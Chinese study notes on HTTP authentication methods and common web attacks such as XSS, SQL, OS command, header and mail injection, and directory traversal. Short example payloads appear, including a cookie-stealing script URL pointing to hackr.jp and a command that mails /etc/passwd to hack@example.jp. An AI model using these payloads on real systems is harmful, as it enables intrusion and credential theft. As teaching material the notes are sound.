

# http 认证和 Web 攻击

## 认证

### 基础

##### 认证

- 判断使用者身份;

##### HTTP 认证方式

- BASIC 认证;
- DIGEST 认证;
- SSL 客户端认证;
- FormBase 认证;

### BASIC 认证

##### 认证步骤

- 客户端发送请求;
- 服务器返回 401 状态码, 使用 Authorization Required 字段告知认证方式;
- 客户端使用 Authorization, 发送 Base64 编码后的 ID 和密码;
  - username: password 的形式;
- 服务器端进行验证, 验证成功返回 200, 反之返回 401;

##### 缺陷

- 明文发送用户信息;
- 无法进行注销操作;

### DIGEST 认证

##### 认证步骤

- 客户端发送请求;
- 服务器返回 401 状态码, 使用 Authorization Required 字段告知认证方式;
  - 携带临时生成的质询码 (nonce);
- 客户端根据质询码计算出响应码;
- 服务器端进行验证, 验证成功返回 200, 反之返回 401;

##### 缺陷

- 使用复杂;
- 无法避免其他人伪装用户;

### SSL 客户端认证

##### 认证步骤

- 客户端事先安装 SSL 客户端证书;
- 客户端发送请求;
- 服务器端发送 Certificate Request, 要求客户端提供客户端证书;
- 客户端发送证书, 通过 Client Certificate 发送给服务器;
- 服务器验证客户端证书, 进行 HTTPS 通信;

##### 双因素认证

- SSL 客户端证书 + 表单认证;
- SSL 客户端证书用于认证客户端计算机;
- 表单认证用于确定用户真实性;

##### 缺陷

- SSL 证书需支付一定费用;

### 基于表单认证

- 客户端使用 POST 请求发送用户 ID 和密码;
- 服务器进行验证, 验证成功返回 token;
- 客户端使用 web storage 存储 token;

## web 攻击

### 基础

##### 不可信的客户端

- 客户端可以自由变更和篡改 HTTP 请求;
- 服务器将一切来自客户端的请求视为不可信的请求;

##### 攻击模式

- 主动攻击;
  - 攻击者主动访问 Web 应用, 传入攻击代码;
    - SQL 注入;
    - OS 命令注入;
- 被动攻击;
  - 攻击者设置陷阱代码, 诱导用户触发, 用户作为跳板进行攻击;
    - XSS;
    - CSRF;

##### 防御策略

- 客户端验证: 作为 UI 提示, 不可信;
- 服务器验证;
  - 输入值验证: 验证请求参数是否合规;
  - 输入值转义: 将请求参数进行转义, 避免攻击代码;

### 输入值相关攻击

#### 跨站攻击脚本 (XSS)

##### 跨站攻击脚本

- 被动攻击;
- 预先设置陷阱代码;
- 通过运行非法的 HTML 或 JS 进行攻击;

##### 危害

- 篡改表单骗取用户信息;
- 窃取用户 storage;

```bash
# URL 非法导入 js 脚本
# 用户一旦点击该 URL, 发送自身 cookie 至指定网站
http://example.jp/login?ID="><script src=http://hackr.jp/xss.js></script>"

# xss.js
var content = escape(document.cookie);
document.write("");
```

#### sql 注入攻击

- 服务器拼接 sql 存在漏洞;
- 攻击者构造非法 sql;
- 非法访问服务器资源;

```bash
# 正常情况
http://example.com/search?q= 上野宣
SELECT * FROM bookTbl WHERE author = ' 上野宣 ' and flag = 1;

# 构造非法 sql
# 访问到不应该访问的权限
http://example.com/search?q= 上野宣 ' --
SELECT * FROM bookTbl WHERE author =' 上野宣 ' - -' and flag=1;
```

#### os 命令注入攻击

- 服务器执行系统命令存在漏洞;
- 攻击者构造非法命令;

```bash
# 服务器调用命令行穿在安全漏洞
my $adr = $q->param('mailaddress');
open(MAIL, "¦ /usr/sbin/sendmail $adr");
print MAIL "From: info@example.com\n";

# 攻击者构造非法
; cat /etc/passwd ¦ mail hack@example.jp

# 系统执行命令
# ; 视为命令之间的分隔符, 导致非法执行 cat 之后的命令
¦ /usr/sbin/sendmail ; cat /etc/passwd ¦ mail hack@example.jp
```

#### HTTP 首部注入攻击

- 被动攻击;
- 攻击者在首部字段插入换行符;
- 添加任意首部或主体;

```bash
# 通过 %0D%0A 换行符, 非法插入 Set-Cookie
%0D%0ASet-Cookie:+SID=123456789
# 通过 %0D%0A 换行符, 非法插入任意 HTML 网页
%0D%0A%0D%0A<HTML><HEAD><TITLE> 之后,想要显示的网页内容 <!--
```

#### 邮件首部注入攻击

- 被动攻击;
- 通过邮件首部插入换行符;
- 发送给任意对象或添加非法内容;

```bash
# 通过 %0D%0A%0D%0A 改写任意邮件首部
bob@hackr.jp%0D%0A%0D%0ATest Message
```

#### 目录遍历攻击

- 主动攻击;
- 通过分析 URL, 猜测文件目录;
- 通过相对路径定位符或文件名访问非公开文件;

```bash
# ../../etc/passwd 访问上级文件夹中的 etc 文件
http://example.com/read.php?log=../../etc/passwd
```

#### 远程文件包含漏洞

- 主动攻击;
- 服务器脚本使用外界 URL;
- 攻击者制作陷阱 URL, 诱导服务器执行;
- 常见于 php;

### 设计缺陷

#### 强制浏览漏洞

##### 强制浏览

- 强行访问非公开文件;

##### 造成原因

- 基于 URL 推测出文件名;
- 使用软件默认文件名;
- 访问资源未进行权限控制;

#### 不正确的错误消息

- 通过分析 web 应用返回的错误消息得到相关信息;
- 返回编程语言, 数据库, 服务器等的默认报错信息, 保留大量服务器信息;

#### 开放重定向

- 网站开放重定向功能;
- 若重定向 URL 为恶意网站, gg;

### 会话管理攻击

#### 会话劫持

##### 会话劫持

- 攻击者通过某种手段获取用户 token, 进而伪装用户;

##### 获取手段

- 推测 token;
- XSS 盗取 token;
- 基于会话固定攻击盗取 token;



#### 跨站点请求伪造 (CSRF)

- 被动攻击;
- 攻击者设置陷阱代码;
- 利用用户权限, 作为跳板进行非法操作;

### 其他安全漏洞

#### 密码破解

- 穷举;
- 字典攻击;
- 彩虹表: 预先生成散列值表;

#### 点击劫持 (Clickjacking)

- 将 UI 透明, 覆盖到 Web 页面上;
- 诱导用户点击对应 UI, 执行非法操作;

#### 后门程序

- 设置程序隐藏入口;
- 通过非正常操作执行首先功能;
